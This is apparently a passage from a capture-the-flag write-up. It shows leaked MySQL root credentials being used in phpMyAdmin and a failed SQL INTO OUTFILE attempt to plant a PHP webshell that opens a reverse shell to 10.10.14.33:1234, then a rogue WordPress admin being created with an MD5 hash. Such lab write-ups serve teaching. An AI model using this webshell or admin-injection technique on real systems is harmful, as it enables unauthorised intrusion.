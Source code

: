 This file obviously contains hardcoded SQL user and password (do not insert hardcoded passwords on source code!). The user and password are `root` and `8YsqfCTnvxAUeduzjNSXe22`.

## phpMyAdmin

We have the root user for the MySQL server, so we can use the login form found previously for phpMyAdmin. Since phpMyAdmin allows us to run arbitrary SQL, we can try to create a malicious webshell in the php folder, and then request it.

```sql
SELECT '<?php $sock=fsockopen("10.10.14.33",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>' into outfile "/var/www/backdoor.php"
```

![](/assets/img/blocky/2020-10-22-18-05-16.png)

It was a nice idea but it won't work if `--secure-file-priv` is enabled. This flag does not allow us to write in to the `www` folder and cannot be disabled from phpMyAdmin AFAIK.

```sql
SHOW VARIABLES LIKE "secure_file_priv";
```

## Wordpress user creation

But wait! phpMyAdmin manages the database for the Wordpress installation, so if we control the database we control the users! Let's create an admin user for ourselves.

![](/assets/img/blocky/2020-10-22-18-23-24.png)

We can just clone the one that already exists and set our password. Keep in mind that the password is not stored in clear, so we'll have to save it as MD5.

In the older version, WordPress used MD5 hash to encrypt passwords. Since WordPress 2.5, it started using stronger encryption technologies. However, WordPress still recognizes `MD5` to provide backward compatibility.

As soon as you login using a password string stored as a MD5 hash, WordPress recognizes it and changes it using the newer encryption algorithms.

To make this user admin, we also have to clone the meta info permissions for our user id (2).
